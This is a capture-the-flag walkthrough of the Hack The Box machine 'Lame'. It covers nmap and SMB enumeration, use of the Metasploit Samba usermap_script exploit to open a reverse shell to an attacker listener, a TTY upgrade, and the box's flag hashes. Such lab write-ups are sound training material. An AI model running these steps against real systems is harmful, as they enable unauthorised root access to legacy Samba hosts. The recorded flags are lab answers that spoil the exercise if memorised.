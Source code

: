 # HTB: Lame

## Engagement Overview

**Target:** Lame
**Box IP:** 10.10.10.3
**Local IP:** 10.10.10.152
**Date:** 2025-07-02

---

### Objectives

- Enumerate network services (SMB/FTP/SSH) and writable shares.  
- Exploit Samba (usermap_script) to gain command execution.  
- Escalate to root and capture flags.

---

## Service Enumeration

```bash
nmap -p- --min-rate=1000 -T4 10.10.10.3
```

**Relevant ports discovered:**  
- 21/tcp ftp (vsftpd)  
- 22/tcp ssh  
- 139/tcp netbios-ssn  
- 445/tcp microsoft-ds (Samba)  
- 3632/tcp distccd

SMB shares (from smbmap): `tmp` share is READ,WRITE — usable for uploads.

---

## Initial Access

### SMB foothold

```bash
smbmap -H 10.10.10.3
smbclient -N \\10.10.10.3\tmp
# connected to tmp share and uploaded/executed payload via exploit flow
```

### Exploitation attempted/used

- vsftpd 2.3.4 backdoor (CVE-2011-2523) noted but port filtered/unusable.  
- Successfully used `exploit/multi/samba/usermap_script` (Metasploit) to execute commands, resulting in a reverse shell to attacker listener.

```text
# msf console snippet
msf6 > use exploit/multi/samba/usermap_script
[*] Started reverse TCP handler on 10.10.16.5:4444
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.3:43580)
```

Upgraded shell and spawned an interactive TTY:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
id
# uid=0(root) gid=0(root)
```

---

## Privilege Escalation

- Post-exploit TTY indicates root obtained via exploit flow; no additional privesc steps required.

---

## House Cleaning / Post-Exploitation

**Flags:**  
- `user.txt`: `e95ac31f8132e26eac44c2fe58792cfa`  
- `root.txt`: `4f8f2ae18815f97ffdf7975965d6b624`

- Removed any uploaded artifacts where applicable.  

---

## Tools Utilized
- nmap, smbmap, smbclient, metasploit, nc, python

---

## Key Takeaways
- Writable SMB shares are useful for dropping/executing payloads.  
- Samba `usermap_script` exploit remains relevant for legacy systems.  
- Always test multiple attack vectors (FTP, SMB) when initial paths are filtered.
